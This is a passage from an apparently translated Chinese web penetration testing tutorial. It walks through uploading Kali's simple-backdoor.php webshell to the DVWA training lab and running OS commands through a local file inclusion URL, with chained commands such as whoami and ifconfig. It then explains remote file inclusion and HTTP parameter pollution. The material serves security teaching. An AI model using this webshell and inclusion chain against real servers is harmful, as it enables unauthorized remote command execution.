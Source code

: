 我们将上传的恶意文件是 webshell，它是一个脚本，将在服务器上运行，让我们远程执行操作系统命令。Kali Linux 在`/usr/share/webshells`目录中包含一组 Webshell。对于本练习，我们将使用`simple-backdoor.php`（`/usr/share/webshells/php/simple-backdoor.php`。

进入 DVWA 的*文件上传*练习，上传文件。请注意上载文件时显示的相对路径：

![](../images/00266.jpeg)

如果上传脚本在`/dvwa/vulnerabilities/upload/`中，相对于 web 服务器根目录，根据显示的相对路径，文件应该上传在`/dvwa/hackable/uploads/simple-backdoor.php`中。现在回到*文件包含*练习，将`page`参数更改为`../../hackable/uploads/simple-backdoor.php`：

![](../images/00267.jpeg)

好吧，无可否认，我们并没有得到一个惊人的结果。让我们检查 webshell 的代码：

![](../images/00268.jpeg)

您需要使用要执行的命令向 webshell 传递一个参数，但在文件包含中，包含文件的代码与包含它的文件集成，因此您不能像使用说明所说的那样只添加`?cmd=command`。相反，您需要添加一个`cmd`参数，就像将其发送到包含页面一样：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a
```

![](../images/00269.jpeg)

您还可以使用`;`（分号）作为分隔符，在一次调用中链接多个命令：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a;whoami;/sbin/ifconfig
```

![](../images/00270.jpeg)

# 远程文件包含

**远程文件包含**（**RFI**是一种攻击技术，当应用程序允许包含来自其他服务器的文件时，利用文件包含机制进行攻击。这可能导致应用程序在攻击者的控制下从远程服务器运行脚本。

RFI 的工作方式与 LFI 完全相同，只是使用了完整 URL，而不是文件的相对路径，如下所示：

```
http://vulnerable_website.com/preview.php?script=http://example.com/temp  
```

现代 web 服务器的功能包括默认禁用的文件，特别是外部文件。然而，有时应用程序或业务的需求会使开发人员启用此功能。然而，随着时间的推移，这种情况发生的频率会降低。

# HTTP 参数污染

HTTP 允许在`GET`和`POST`方法中使用相同名称的多个参数。HTTP 标准既没有解释，也没有设置规则，说明如何解释具有相同名称的多个输入参数，是接受变量的最后一次出现还是第一次出现，还是将变量用作数组。

例如，以下`POST`请求符合标准，即使`item_id`变量的值为`num1`和`num2`：

```
item_id=num1&second_parameter=3&item_id=num2  
```
